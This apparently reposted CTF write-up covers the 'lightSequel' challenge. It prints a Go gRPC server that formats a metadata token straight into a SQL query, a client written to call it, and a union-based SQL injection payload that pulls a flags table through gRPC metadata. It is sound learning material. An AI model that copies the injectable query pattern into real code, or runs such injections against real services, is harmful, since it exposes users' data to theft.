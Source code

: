 
##
#
https://ctftime.org/writeup/21526
#
##

lightSequel
by freeeve / The Additional Payphones
Tags: sqli golang 

Rating:

This was a nice opportunity to see grpc in action.

They provided the code for the server, as well as the protobuf-based service.

full code here

Looking at the code, I saw a possible sql injection vulnerability here (in the where clause):

```
func (s *srvServer) GetLoginHistory(ctx context.Context, _ *pb.SrvRequest) (*pb.SrvReply, error) {
  md, _ := metadata.FromIncomingContext(ctx)
  if len(md["user_token"]) == 0 {
    // no user token provided by upstream
    return &pb.SrvReply{
      Ip: nil,
        }, nil
  }
  userToken := md["user_token"][0]
  var ul []UserLogs
  err := db.Table("user_logs AS ul").
    Select("ul.ip").
    Where(fmt.Sprintf("ul.user_id = (SELECT id FROM users AS u WHERE u.token = '%s')", userToken)).
    Find(&ul)
  if err != nil {
    log.Println(err)
  }
  // convert struct to an array
  var ips []string
  for _, v := range ul {
    ips = append(ips, v.Ip)
  }
  return &pb.SrvReply{
    Ip: ips,
  }, nil
}

```

First step: implement a client to be able to call the GetLoginHistory. I went through the steps of invoking the AuthSrv and registering, but it turns out that wasn’t actually needed–the GetLoginHistory is only checking the token exists, without validation.

```
func main() {
  conn, err := grpc.Dial("light.w-va.cf:1004", grpc.WithInsecure())
  if err != nil {
    panic(err)
  }
  defer conn.Close()
  srvc := proto.NewSrvClient(conn)
  srvreq := proto.SrvRequest{}
  srvresp, err := srvc.GetLoginHistory(context.Background(), &srvreq)
  if err != nil {
    panic(err)
  }
  fmt.Println(srvresp)
}
```

This got the nil response. It took me a bit more effort to figure out how to pass a user_token into the md via the metadata.FromIncomingContext(ctx). And from there, a union-based sql injection to get the flag.
```
  srvc := proto.NewSrvClient(conn)
  md := metadata.New(map[string]string{"user_token": "')) union select flag from flags--"})
  ctx := metadata.NewOutgoingContext(context.Background(), md)
  srvreq := proto.SrvRequest{}
  srvresp, err := srvc.GetLoginHistory(ctx, &srvreq)
  ```
  
It was cool to learn about grpc and xorm as well–haven’t done serious golang in a while. Thanks wectf. :)

Original writeup (https://freeeve.github.io/ctf-writeups/posts/2020/wectf/light-sequel/).
